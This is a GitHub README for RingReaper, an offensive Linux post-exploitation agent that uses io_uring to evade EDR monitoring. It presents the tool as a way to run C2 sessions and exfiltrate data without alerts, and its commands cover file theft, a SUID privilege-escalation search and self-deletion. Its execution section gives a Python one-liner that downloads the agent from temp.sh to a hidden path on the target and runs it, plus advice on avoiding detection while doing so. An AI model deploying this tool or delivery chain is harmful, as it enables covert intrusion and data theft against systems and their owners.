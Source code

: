 # RingReaper

![Dororo](https://i.imgur.com/Hrmpefq.gif)

**RingReaper** is a simple post-exploitation agent for Linux designed for those who need to operate stealthily, minimizing the chances of being detected by EDR solutions. The idea behind this project was to leverage **io_uring**, the new asynchronous I/O interface in the Linux kernel, specifically to avoid traditional system calls that most EDRs tend to monitor or even hook.

In practice, RingReaper replaces calls such as `read`, `write`, `recv`, `send`, `connect`, among others, with asynchronous I/O operations (`io_uring_prep_*`), reducing exposure to hooks and event tracing typically collected in a standardized way by security products.

> **NOTE:** Some functions within RingReaper still rely on traditional calls, such as directory reading (`opendir`, `readdir`) or symbolic link resolution (`readlink`), because io_uring **does not yet fully support** these types of operations natively. Even so, during my tests, these calls did not trigger alerts on the tested EDRs, precisely because they fall outside the monitored network I/O paths.

In summary, RingReaper was built to **avoid traditional calls as much as possible**, and even in cases where it had to use them, it demonstrated excellent evasion capabilities, with no alerts or detections from common security agents.

See the full and detailed article at:

https://matheuzsecurity.github.io/hacking/evading-linux-edrs-with-io-uring/

Author: https://www.linkedin.com/in/mathsalves/

## Command Reference

| Command       | Description                                              | Backend              |
|---------------|----------------------------------------------------------|----------------------|
| `get`         | Look files from the target                           | 100% io_uring        |
| `put`         | Upload files (uses `recv` on the agent side)             | 100% io_uring        |
| `users`       | List logged-in users by reading `utmp`                   | 100% io_uring        |
| `ss` / `netstat` | List TCP connections from `/proc/net/tcp`            | 100% io_uring        |
| `privesc`     | Search for SUID binaries using `statx`                   | 100% io_uring        |
| `ps`          | List processes (uses `opendir`, `readdir`)               | traditional calls + io_uring   |
| `kick`        | Kill `pts` sessions (uses `opendir`, `readdir`, `kill`, `readlink`) | traditional calls + io_uring |
| `me`          | Show PID/TTY (`getpid`, `ttyname`)                       | traditional calls + io_uring   |
| `selfdestruct`| Delete the current binary (uses `readlink`)              | traditional calls + io_uring   |
| `exit`        | Terminate connection and exit                            | 100% io_uring        |
| `help`        | Display help                                             | 100% io_uring        |

In RingReaper, all data traffic, including control commands, uploads, and downloads, must pass through io_uring. This also ensures that the most sensitive operations remain off the radar of hooks and EDR monitoring based on traditional calls.

## About Evasion

RingReaper was designed from the ground up to bypass EDR monitoring. Many security solutions base their detection triggers on intercepting classic syscalls (`read`, `recv`, `send`, `connect`) at the kernel level. Since `io_uring` is relatively new and less integrated into the telemetry pipeline of these products, it often goes unnoticed by most agents, allowing for C2 sessions and data exfiltration without triggering alerts.

Even functions that still rely on older syscalls (such as directory reading) remained discreet enough not to raise alarms.

## Requirements

- Linux kernel 5.1 or higher  
- `liburing` library  
- A compatible C compiler (tested with GCC)  

## Env

Tested **ONLY** on the following kernel versions below;

- 6.8.0-60-generic
- 6.12.25-amd64

## Compilation

```
sudo apt install liburing-dev -y
gcc agent.c -o agent -luring -O2 -s -static
```

## Execution

In testing, I noticed that EDR detected the compilation of `agent.c` by monitoring GCC usage in real time (it's better not to use wget/curl). To bypass this, I compiled the agent statically on my machine, sent the finished binary via `temp.sh` and used Python on the target to download and execute it. This technique worked without warning.

Server (Attack box) : 

- `curl -F "file=@agent" https://temp.sh/upload`
- `python3 server.py --ip IP --port 443` 

Agent (Target machine) :

- `python3 -c "import urllib.request,os,subprocess; u=urllib.request.Request('http://temp.sh/xxxx/stealth_agent',method='POST'); d='/var/tmp/.X11'; open(d,'wb').write(urllib.request.urlopen(u).read()); os.chmod(d,0o755); subprocess.Popen([d]);"`

## Contribution

Feel free to make pull requests and contribute to the project, which is initially just a simple POC.

## Disclaimer

This code was developed solely for educational purposes, research, and controlled demonstrations of evasion techniques. Any use outside authorized environments, or for malicious purposes, is strictly prohibited and entirely the responsibility of the user. Unauthorized or illegal use may violate local, national, or international laws.

